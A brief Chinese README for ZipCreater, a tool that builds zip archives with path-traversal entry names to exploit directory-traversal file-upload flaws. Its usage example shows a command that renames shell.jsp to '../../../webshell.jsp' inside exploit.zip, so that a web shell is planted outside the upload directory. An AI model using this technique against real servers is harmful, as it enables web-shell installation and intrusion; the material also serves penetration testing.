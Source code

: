 ## ZipCreater

ZipCreater主要应用于跨目录的文件上传漏洞的利用，它能够快速进行压缩包生成，[evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)不支持修改已有的压缩包，但ZipCreater可以。

使用方式：

假设`/tmp/payload`文件夹内的文件列表如下：

```
1.txt
2.txt
shell.jsp
```

使用ZipCreater可以生成跨目录的文件名：

```
$ zipcreater -source /tmp/payload/ -dest /tmp/exploit.zip -filename shell.jsp -path ../../../webshell.jsp'
```

exploit.zip内容如下：

```
1.txt
2.txt
../../../webshell.jsp
```

